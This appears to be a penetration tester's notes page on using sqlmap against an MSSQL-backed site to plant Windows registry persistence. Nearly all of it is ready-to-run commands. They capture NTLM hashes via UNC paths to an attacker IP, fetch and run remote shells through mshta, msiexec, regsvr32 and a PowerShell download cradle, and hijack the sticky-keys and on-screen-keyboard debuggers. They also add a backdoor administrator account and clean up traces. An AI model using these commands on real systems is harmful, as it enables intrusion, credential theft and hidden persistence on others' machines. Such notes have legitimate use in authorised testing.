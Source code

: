 # Windows Registry

Search Tag: #sqlmap #initial-foothold #persistence

## 01 - Create Registry Values

TODO: Provide  a scenario if it's not possible to reboot the windows machine. An attacker can use **Denial of Service (DoS)** attack vector to crash the machine then it reboots to get a callback shell.

## 1.1 - Conditions

TODO: Gather conditions to takeover of the machine in the MSSQL backend

TODO: Check other world writeable folders
- `C:\Windows\Tasks\`
- `C:\Users\Public\`

1. The DBMS backend must be MSSQL

## 1.2 - Grab NTLM hashes

- Run [[Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net view \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.3 - Execute callback shell in disk

- **Upload a callback shell in the windows temporary directory.**

```
$ sqlmap -u "<URL>" --file-write=/path/to/shell.exe --file-dest="C:\Windows\Temp\shell.exe"

$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="C:\Windows\Temp\shell.exe"
```

- **Then confirm the registry value is updated successfully.**

```
$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.4 - Execute callback shell in memory (fileless)

### 1.4.1 - Host a webserver to stage the implant

- **Mshta**

```
$ sqlmap -u "<URL>" --reg-value="Updater" --reg-data="mshta.exe http://<IP>/shell.hta"
```

- **Msiexec**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="msiexec.exe /q /i http://<attacker_IP>/shell.msi"
```

- **Regsvr32**

```
$ sqlmap -u "<URL>"--reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="regsvr32.exe /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"
```

- **Powershell**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="powershell.exe -nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\'http://<IP>/shell.ps1\'))\""
```

### 1.4.2 - Directly execute the callback shell

- **Powershell**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="conhost.exe --headless powershell.exe -nop -NonI -Nologo -w hidden -e <base64_payload>"
```

- **Python**

```
$ sqlmap -u "<URL>" --reg-add="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="python.exe -c <payload>"
```

- **Cleanup the registry value and confirm it's deleted.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

## 1.5 - Living off the Land

### 1.5.1 - Remote Desktop Protocol via Stick Keys Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

- **Create user account (Optional). Refer to this [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Persistence/Windows/Host Persistence/Create User|link]].**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater" --reg-data="cmd.exe /c net user webadmin Passw0rd123\! /add /y & net localgroup Administrators webadmin /add /y & net localgroup \"Remote Desktop Users\" webadmin /add /y"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" -p <parameter> --cookie="<cookie_seesion_ID_key>=<cookie_session_ID_value>" --random-agent --dbms=mssql --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

### 1.5.2 - Remote Desktop Protocol via Accessibility On-Screen Keyboard Command Prompt

- **We must first take note of the registry values to clear traces afterwards**

```
$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"
```

- **Add a terminal prompt in the registry value.**

```
$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="cmd.exe"

$ sqlmap -u "<URL>" --reg-add="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger" --reg-type=REG_SZ --reg-data="powershell.exe"
```

- **Then confirm the modified changes.**

```
$ sqlmap -u "<URL>" --reg-read "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" --reg-value="Debugger"

$ sqlmap -u "<URL>" --reg-read="HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

- **Cleanup the registry value and double check to confirm.**

```
$ sqlmap -u "<URL>" --reg-del="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"

$ sqlmap -u "<URL>" --reg-read="HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" --reg-value="Updater"
```

---
## References

- [[Registry Keys]]

- [[Third-Party Programs#^1f2bd0|Windows RDP Remote Login]]

- [Pwning a shell via MSSQL DBMS](https://owasp.org/www-chapter-ghana/assets/slides/Pwning_a_shell_via_MSSQL_DBMS.pdf)

- [Executing OS Commands Through SQL Server](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)